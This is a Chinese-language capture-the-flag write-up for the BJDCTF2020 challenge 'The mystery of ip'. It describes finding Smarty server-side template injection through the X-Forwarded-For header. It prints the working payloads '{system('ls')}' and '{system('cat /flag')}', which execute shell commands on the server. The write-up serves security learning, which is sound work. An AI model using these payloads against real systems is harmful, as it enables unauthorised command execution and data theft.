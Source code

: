 # [BJDCTF2020]The mystery of ip
![](<./img/Pasted image 20221113151242.png>)

首页长这样

![](<./img/Pasted image 20221113151312.png>)

首页有一串js

![](<./img/Pasted image 20221113151850.png>)

好家伙，炫酷的打字效果往往只需要最朴素的编写方式，学到了（然而好像和题目没啥关系）

```php
/flag.php
```
![](<./img/Pasted image 20221113165329.png>)

很奇怪，这好像是个内网ip，应该是过了代理

猜测可修改`X-Forwarded-For`来控制回显

![](<./img/Pasted image 20221113165737.png>)

先瞎打一波看看有没有报错
```http
X-Forwarded-For: '{\%*asfo
```

![](<./img/Pasted image 20221113170317.png>)

通过报错确定服务端使用`Smarty`作为模板引擎

![](<./img/Pasted image 20221113170349.png>)

`Smarty`语法好像是基于`php`，尝试使用`php`的`system`函数
```http
X-Forwarded-For: {system('ls')}
```
![](<./img/Pasted image 20221113170907.png>)
```http
X-Forwarded-For: {system('cat /flag')}
```
![](<./img/Pasted image 20221113171153.png>)
